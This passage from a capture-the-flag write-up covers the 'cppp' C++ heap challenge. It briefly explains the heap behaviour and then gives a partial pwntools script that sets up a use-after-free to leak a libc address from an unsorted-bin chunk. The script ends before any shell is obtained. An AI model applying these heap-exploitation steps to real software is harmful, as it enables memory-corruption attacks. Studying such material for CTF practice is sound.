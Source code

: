 I think this is the copy constructor of `kv`

### Exploitation

The C++ heap is a bit messy since many copy constructor will be called, and a long `std::string` is constructed by continuously appending character, in which `malloc/free` may be called to extend the chunk size. I successfully constructed a leak by simply trial and error. :)

```python
from pwn import *

g_local=True
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:
	sh = process("./cppp")
	gdb.attach(sh)
else:
	sh = remote("cppp.pwni.ng", 7777)

sh.recvuntil("Choice: ")

def add(name="1", buf="2"):
	sh.sendline("1")
	sh.recvuntil("name: ")
	sh.sendline(name)
	sh.recvuntil("buf: ")
	sh.sendline(buf)
	sh.recvuntil("Choice: ")

def remove(idx):
	sh.sendline("2")
	sh.recvuntil("idx: ")
	sh.sendline(str(idx))
	sh.recvuntil("Choice: ")

def view(idx):
	sh.sendline("3")
	sh.recvuntil("idx: ")
	sh.sendline(str(idx))
	ret = sh.recvuntil('\n')
	sh.recvuntil("Choice: ")
	return ret[:-1]

#1. leak heap (don't need)
# add() #0
# add("uaf") #1
# remove(0) #1->0
# heap_addr = u64(view(0) + '\x00\x00') - 0x13290
# print hex(heap_addr)
#now 0 is UAF don't touch it

#2. leak libc, want UAF of unsorted bin
add() #0
add("U" * 0x800, 'A' * 0x800) #1
add("sep") #2 seperator
#also, it seems in this operation the vector will be extended,
#copy constructor of `kv` will also be called, 
#(btw I guess the source code did not use r-value reference in C++11)
#I think it is this that makes leak possible
#but it was found by trial and error initially

remove(2)
```